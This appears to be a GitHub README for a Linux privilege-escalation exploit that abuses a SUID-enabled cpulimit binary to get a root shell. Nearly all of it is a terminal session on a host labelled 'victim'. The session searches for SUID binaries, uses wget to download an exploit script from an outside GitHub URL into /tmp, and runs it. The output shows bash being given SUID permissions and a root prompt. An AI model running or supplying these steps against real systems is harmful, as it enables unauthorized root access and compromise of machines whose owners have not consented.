 # CPULimit Linux Privilege Escalation `(Abusing SUID)`


```cmd
user@victim:~$ whoami
user
user@victim:~$ find / -perm -4000 2>/dev/null | grep "cpulimit"
/usr/bin/cpulimit
user@victim:~$ cd /tmp/
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 

[i]  starting exploit.. 
[*]  check PATH bash: /usr/bin/bash
[*]  check PATH cpulimit: /usr/bin/cpulimit
[+]  granting SUID permissions to: /usr/bin/bash
Process 436 detected
Child process is finished, exiting...
[+]  getting a shell as root.. 
bash-5.0# whoami
root
```

**Screenshot**

![](/screenshot.png)
